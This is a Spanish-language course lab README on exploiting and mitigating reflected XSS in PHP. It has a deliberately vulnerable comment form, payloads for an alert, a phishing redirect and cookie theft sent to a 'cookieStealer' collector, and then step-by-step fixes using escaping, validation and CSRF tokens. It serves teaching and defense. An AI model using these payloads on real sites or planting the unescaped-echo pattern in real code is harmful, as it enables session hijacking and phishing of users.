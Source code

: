 # PPS-Unidad3Actividad5-XSS
Explotación y Mitigación de Cross-Site Scripting (XSS)
===
Tenemos como objetivo:

> - Recordar cómo se pueden hacer ataques de Cross-Site Scripting (XSS)
>
> - Conocer las diferentes formas de ataques XSS.
>
> - Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es XSS?
---
Cross-Site Scripting (XSS) ocurre cuando una aplicación no valida ni sanitiza l>
scripts maliciosos se ejecuten en el navegador de otros usuarios.

Tipos de XSS:
- **Reflejado**: Se ejecuta inmediatamente al hacer la solicitud con un payload>
- **Almacenado**: El script se guarda en la base de datos y afecta a otros usua>
- **DOM-Based**: Se inyecta código en la estructura DOM sin que el servidor lo >

---
## ACTIVIDADES A REALIZAR
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
> 
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos realizando operaciones:

### Código vulnerable
---
Crear el archivo vulnerable comment.php:

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando
el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado:
\[comentario\]". 

El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.

![](images/xss1.png)

### **Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

Ingresar el siguiente código en el formulario:

`<script>alert('XSS ejecutado!')</script>`

Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](images/xss2.png)

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](images/xss3.png)


**Podemos capturar cookies del usuario (en ataques reales):**
---
Con esto, un atacante podría robar sesiones de usuarios.

<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`

![](images/xss4.png)

Si lo quieres ver, rea en tu servidor web una carpeta con nombre cookieStealer y copias en el archivo index.php [este archivo php](files/steal.php)

~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
mkdir /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt

~~~

En el archivo cookie.txt del servidor del atacante se habrá guardado los datos de nuestra cookie:

![](images/xss8.png)

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>
### **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Validación
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](files/xss5.png)

Creamos una función filter_string_polyfill que nos va a eliminar todos los caracteres nulos y nos cambia caracteres conflictivos.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en texto seguro:
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido 

~~~
<?php
if (isset($_POST['comment'])) {
	$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
	echo "Comentario publicado: " . $comment;
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![](images/xss5.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:

**Validación de entrada**
---

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos
demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:
~~~
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](files/xss6.png)

**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).
Crea el archivo comment4.php con todas las mitigaciones:
~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~

---
## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad5-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__
